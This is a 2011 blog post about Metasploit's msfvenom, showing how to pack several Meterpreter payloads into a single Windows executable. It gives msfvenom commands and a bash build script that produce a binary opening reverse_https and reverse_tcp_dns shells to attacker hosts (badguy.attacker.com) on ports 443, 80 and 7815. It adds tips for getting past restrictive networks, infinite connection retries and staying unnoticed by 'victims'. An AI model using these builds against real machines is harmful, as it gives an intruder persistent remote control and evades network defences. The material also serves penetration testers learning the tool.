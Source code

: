 ---
author: mubix
comments: true
date: 2011-07-17 07:49:34+00:00
layout: post
title: Metasploit Payloads Explained - Part 1b
categories:
- metasploit
- payloads
---

This series was interrupted a bit by the new Metasploit HTTP/HTTPS payloads ([more info](https://community.rapid7.com/community/metasploit/blog/2011/06/29/meterpreter-httphttps-communication)). Definitely not complaining though as the new features *(as will be discussed in part 2) are some epic new additions to the payloads list. However an important change happened while the craziness over the new payloads was going on. ScriptJunkie snuck in an awesome change to msfvenom (a.k.a. msffsm).

Here is the link to the ticket about the change ([link](https://dev.metasploit.com/redmine/issues/4714)) and the revision ([r13057](https://dev.metasploit.com/redmine/projects/framework/repository/revisions/13057))

**TL;DR version**: This change allows you to put multiple payloads into one binary... ya.. awesomesauce.

He gives the following example:

```
ruby msfvenom -p windows/messagebox -f raw EXITFUNC=thread > /tmp/msgbox.raw
ruby msfvenom -p windows/meterpreter/reverse_tcp -f raw -t /tmp/msgbox.raw -k LHOST=192.168.0.102 EXITFUNC=thread > /tmp/rev102msgbox.raw
ruby msfvenom -p - -f exe < /tmp/rev102msgbox.raw > /tmp/rev102msgbox.exe
```

This example when 'rev102msgbox.exe' is run will pop up a message box with the default options (Hello, from MSF!) and throw a reverse)tcp connection to 192.168.0.102 over the default port of 4444.

This is great as an example and a good way to test to see if things are working, but I don't normally like to inform my victims that I'm there by saying hello (especially if I'm not there to see their faces).

So I thought that this would be a great way of throwing a bunch of payloads together to try a few of the tried and true ways of getting past restrictive networks all in one binary. I started off with 3 payloads:

* reverse_tcp_dns to port 7815
* reverse_tcp_dns to port 80
* reverse_https to port 443

I chose those because I can change the DNS to point to a new IP address in future without having to regenerate my binary and size really isn't a concern since I won't be using it in an exploit.

_(**SIDE NOT**E: The motive for the port 7815 one is because sometimes there are proxy settings for port 80 and 443 *which the new HTTP/HTTPS payloads can handle ('cept for Auth proxies)* but for some reason quite regularly companies will still allow odd ports to fly through unencumbered)_

Here is what I did:

```
./msfvenom -p windows/meterpreter/reverse_https -f raw LHOST=badguy.attacker.com LPORT=443 > /tmp/stage1.raw
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f raw LHOST=badguy.attacker.com LPORT=80 -c /tmp/stage1.raw > /tmp/stage2.raw
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f exe LHOST=badguy2.attacker.com LPORT=7815 -c /tmp/stage2.raw > /tmp/stage3.exe
```

Luckily (and you'll see why in a second) I forgot to set up a multi/handler on port 7815, which caused me to notice an issue. When one of the payloads failed to connect, '**ExitProcess**' was called, causing all of my payloads to die prematurely (even if they had already gotten the second stage).

I tried setting **AutoRunScript** to 'migrate -f' so that the payloads would migrate out into a new Notepad process. But the connection died too quickly and none of the payloads were fast enough at jumping ship.

**ReverseConnectRetries** to the rescue. This is an advanced setting for the reverse_tcp family (ipv6_tcp, nonx_tcp, ord_tcp, tcp, tcp_allports, tcp_dns) which tells the payload how many times to loop through the initial connection. This setting defaults to 5 but can be anything between 1 and 255. The 255 setting is special since it actually sets an infinite loop. Sweet, now our sinking should never call the ExitProcess command right? Not quite, reverse_https and reverse_http doesn't have this setting. We are still in a bit of a race condition if we want to use those payloads but it is a race we can win now at least.

I wrote a very simple batch file to generate my new binary when I need it (also so I don't have to remember all the commands):


```bash
#!/bin/bash

echo Building Stage 1
./msfvenom -p windows/meterpreter/reverse_https -f raw LHOST=badguy.attacker.com LPORT=443 > /tmp/stage1.raw

echo Building Stage 2
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f raw LHOST=badguy.attacker.com ReverseConnectRetries=255 LPORT=80 -c /tmp/stage1.raw > /tmp/stage2.raw

echo Building Stage 3
./msfvenom -p windows/meterpreter/reverse_tcp_dns -f exe LHOST=badguy2.attacker.com ReverseConnectRetries=255 LPORT=7815 -c /tmp/stage2.raw > /tmp/stage3.exe

echo Cleaning up...
rm -rf /tmp/stage1.raw /tmp/stage2.raw

echo Done..
```

Plus it tells you whats going on and does a bit of clean up, leaving you with just your hydra-binary. One of the things I thought about adding was the cmd/windows/adduser payload just so if the user is an admin we can start our day off without having to add ourselves a user but I decided against it just for clean up and "noise" purposes.

(You'll also notice that one of the payloads is going somewhere else.. no reason to not give your payloads every chance of getting out) Sharing is caring right?
